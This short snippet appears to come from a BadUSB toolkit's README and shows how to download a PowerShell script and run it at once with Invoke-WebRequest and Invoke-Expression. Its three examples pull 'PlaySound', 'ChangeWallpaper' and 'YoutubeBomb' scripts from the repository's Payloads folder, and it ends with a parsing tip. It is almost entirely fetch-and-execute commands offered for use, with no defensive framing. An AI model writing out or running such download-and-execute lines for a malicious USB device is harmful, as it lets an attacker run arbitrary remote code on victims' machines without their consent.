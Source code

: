 ### Download and direclty run a powershell script

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/username/script.ps1
    Invoke-Expression $($ScriptFromGithHub.Content)

Example - Play Sound

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/PlaySound.ps1 -UseBasicParsing
    Invoke-Expression $($ScriptFromGithHub.Content)
    
Example - Change Wallpaper

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/ChangeWallpaper.ps1 -UseBasicParsing
    Invoke-Expression $($ScriptFromGithHub.Content)
    
Example - YoutubeBomb

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/YoutubeBomb.ps1 -UseBasicParsing
    Invoke-Expression $($ScriptFromGithHub.Content)

If you get the error "The response content cannot be parsed because the Internet  Explorer engine is not available,", Add the following opion:

    -UseBasicParsing
